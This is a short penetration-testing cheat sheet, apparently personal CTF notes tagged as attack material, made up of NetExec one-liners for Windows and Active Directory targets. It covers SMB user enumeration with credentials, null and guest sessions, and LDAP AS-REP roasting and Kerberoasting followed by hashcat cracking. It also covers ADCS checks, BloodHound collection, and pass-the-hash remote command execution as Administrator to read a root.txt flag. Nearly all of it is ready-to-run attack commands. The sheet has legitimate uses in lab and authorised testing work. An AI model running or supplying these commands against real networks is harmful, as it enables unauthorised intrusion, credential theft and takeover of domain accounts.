 # nxc
#plateform/linux #target/remote #cat/ATTACK

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc ldap <ip> -u '' -p ''
```

## LDAP all in one
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
## Checking ADCS
```
nxc ldap <ip> -u '<user>' -p '<passwd>' -M adcs
```


## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```
